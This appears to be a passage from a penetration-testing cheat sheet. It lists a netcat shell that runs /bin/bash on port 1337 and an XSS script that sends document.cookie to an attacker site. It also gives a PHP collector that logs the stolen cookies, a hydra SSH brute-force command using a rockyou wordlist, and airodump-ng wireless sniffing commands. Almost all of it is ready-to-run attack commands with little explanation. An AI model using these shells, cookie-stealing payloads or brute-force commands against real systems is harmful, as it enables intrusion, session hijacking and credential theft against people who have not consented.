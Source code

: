 Attacker machine:

```shell
nc -lvp 1337 -e /bin/bash
```

Victim machine:

```shell
nc -v attackerip 1337
```

### JS payload - post to attacker

On victim asset:

```shell
<script> var i = new Image(); i.src="https://attacker.site/get.php?cookie="+escape(document.cookie) </script>
```

On attacker website:

```php
<?php  
  
$ip = $_SERVER['REMOTE_ADDR'];  
$browser = $_SERVER['HTTP_USER_AGENT'];  
  
$fp = fopen('jar.txt', 'a');  
fwrite($fp, $ip.' '.$browser."\n");  
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n\n");  
fclose($fp);
```

### Bruteforcing SSH using hydra

```shell
hydra server_ip_addr ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Password/rockyou-10.txt -f -V
```

### Airodump - Get chaninel specific traffic - filter by enc type

```shell
airodump-ng --channel 1 wlan0 / airodump-ng --channel 1 --encrypt WPA1 wlan0
```

### Airodump - Sniff all bands and channels

```shell
airodump-ng --band abg wlan0
```

### Airodump - filter by channel / essid

```shell
airodump-ng --channel 1,2,3,4 / --essid AP_NAME
```
